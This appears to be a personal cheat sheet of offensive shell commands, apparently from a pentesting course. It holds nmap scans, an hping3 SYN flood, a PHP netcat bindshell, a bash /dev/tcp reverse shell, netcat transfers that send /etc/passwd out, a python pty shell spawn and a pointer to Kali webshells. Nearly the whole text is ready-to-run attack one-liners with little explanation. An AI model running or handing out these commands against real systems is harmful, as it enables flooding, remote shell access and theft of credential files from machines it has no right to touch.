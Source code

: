 ```bash

# -sV -> check services running!
nmap -v -A -sV scanme.nmap.org

# nmap scannt per default 1000 well known ports!
# Scann ALL PORTS:
sudo nmap -A -sV -T5 10.5.123.0/24 -p- # also "-p-"

# execute a SYN flooding attack
sudo timeout 10 hping3 -S --flood 192.168.13.13

# get ip and mac of neighbour
ip neigh

# netcat (nc) - TCP/IP swiss army knife

nc 10.5.123.202 41414
ac9e06fafa7d76bade9106541dc4165dfb18155b580e2ab11924926f9583164a

# start netcat server
# listen on port 4444 (e.g. on my host)
nc -lnvp 4444

# if I can upload a php file and get it to execute: shell access via bindshell
# php bindshell:
system("nc -lnvp 4444 -e /bin/bash");

# SEND file content (eg executables) to a server
# server:
nc -lnvp 4444 > foobar.txt
# client:
nc IP PORT < /etc/passwd

# GET file content (eg password files) from a server
# server:
nc -lnvp 4444 < /etc/passwd
# client:
nc IP PORT > some_file

# scp download folder
scp -r UserName@SourceHost:SourceDirectoryPath TargetFolderName
# scp upload folder
scp -r /path/to/folder UserName@SourceHost:DestDirectoryPath

# SHELL via nc ❤️❤️❤️
# On Host:
nc -l -p 4444 -e /bin/bash
# Client:
ss -tln
nc 127.0.0.1 4444
whoami
root
...HAHAHAHAH

# /dev/tcp
echo "HALLO" >&/dev/tcp/127.0.0.1/4444
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

# python shells
python -c 'import pty; pty.spawn("/bin/sh")'

# kali: /usr/share/webshells 😁
# -> locate webshell
```